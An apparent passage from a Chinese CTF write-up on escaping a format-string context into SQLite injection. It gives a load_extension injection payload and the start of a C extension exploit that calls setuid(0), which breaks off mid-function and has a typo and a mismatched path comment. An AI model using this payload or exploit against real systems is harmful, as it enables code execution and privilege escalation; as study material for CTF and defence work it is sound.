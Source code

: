   ![image-20231019112320911](./images/Drive/image-20231019112320911.png)

格式化字符，不知道能不能逃逸？

尝试了多次之后，无法逃逸，但是可以注入里面的sqlite命令，同时过滤了很多东西，然后就可以使用 `load_extension` 来整活了



​	"+load_extension(char(46,47,50))+" // load_extension('./1')



编写如下exp:



```c++
/* Add your header comment here */
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <signal.h>
#include <dirent.h>
#include <sys/stat.h>
SQLITE_EXTENSION_INIT1


#ifdef _WIN32
__declspec(dllexport)
#endif

int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  
	setuid(0);
    setgit(0);
```